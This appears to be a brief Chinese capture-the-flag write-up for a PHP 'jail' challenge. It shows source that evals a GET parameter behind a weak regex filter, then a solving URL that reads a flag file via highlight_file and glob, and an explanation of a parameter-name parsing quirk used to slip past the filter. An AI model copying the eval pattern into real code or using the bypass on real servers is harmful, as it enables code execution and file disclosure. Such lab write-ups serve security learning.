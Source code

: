 ### ez_php_jail

----

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
include("hint.html");
$Jail = $_GET['Jail_by.Happy'];

if($Jail == null) die("Do You Like My Jail?");

function Like_Jail($var) {
    if (preg_match('/(`|\$|a|c|s|require|include)/i', $var)) {
        return false;
    }
    return true;
}

if (Like_Jail($Jail)) {
    eval($Jail);
    echo "Yes! you escaped from the jail! LOL!";
} else {
    echo "You will Jail in your life!";
}
echo "\n";

// 在HTML解析后再输出PHP源代码

?>
```

这个过滤的还是很多的

```
http://gz.imxbt.cn:20131/?Jail[by.Happy=highlight_file(glob("/f*")[0]);
```

同时值得注意的是：
当 php 版本⼩于 8 时，GET 请求的参数名含有 . ，会被转为 _ ，但是如果参数名中有 [ ，这
个 [ 会被直接转为 _ ，但是后⾯如果有 . ，这个 . 就不会被转为 _ 。